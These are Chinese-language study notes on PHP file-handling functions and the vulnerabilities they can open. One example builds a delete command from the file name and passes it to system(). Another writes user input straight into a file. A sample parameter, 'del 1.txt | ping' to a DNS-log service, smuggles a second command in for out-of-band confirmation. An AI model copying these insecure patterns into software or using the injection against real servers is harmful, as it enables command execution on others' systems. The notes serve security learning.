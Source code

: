#### 知识点6：basename()函数

返回路径中的文件名部分

basename(path[必需],suffix[可选，规定文件扩展名，若有文件扩展名，将不会显示该扩展名])

#### 知识点7：dirname()函数

返回路径中的目录名称部分

#### 知识点8：有关文件读、写的函数

1. file_get_contents()：读取文件内容
2. fopen()、fread()：文件打开、读入
3. fwrite(file[必需] string[必需，要写入的内容] length[可选，要写入的最大字节])

#### 知识点9：ini_set()

`ini_set('open_basedir',_DIR_);`等价于`dirname(_FILE_)`

`_DIR_`是魔术常量，返回当前php文件所在的目录路径，值随着它们在代码中的位置改变而改变

#### 知识点10

注释：

```php
if(isset($_POST['code'])){
	$f=fopen("$path/$file",'w+');
	fwrite($f,$_POST['code']);
	fclose($f);
}
```

第一行用于检查表单是否提交，并且code字段是否存在；

w+表示文件以读写方式打开，若文件不存在，则创建该文件，若文件存在，打开文件后文件内容会被清空，即文件大小变为0；

第三行中的$_POST['code']包含用户在文本区域中输入的内容。

#### 文件下载漏洞（编辑、删除同理）

和在cmd下使用一样的原理。

```php
switch($action){
    case 'del':
//        unlink($file);
        $cmd="del $file";
        system($cmd);
        echo $cmd;
        break;
```

#### dnslog回显

当不知道执行结果时，可以使用`?path=del 1.txt | ping http://www.dnslog.cn/`从这里面获取

例如，我删除了一个文件，但是不会立即反馈给我是否删除成功，此时就可以` | ping dnslog(get subdomain)`。

但是也有可能被以下代码过滤掉：

```php
if(is_file($path)){//判断是否是文件
    //获得文件名
    $file=basename($path);
    //获得路径
    $path=dirname($path);
}elseif(!is_dir($path)){//判断，不是目录
    echo '无效的文件文件路径参数';
}
```

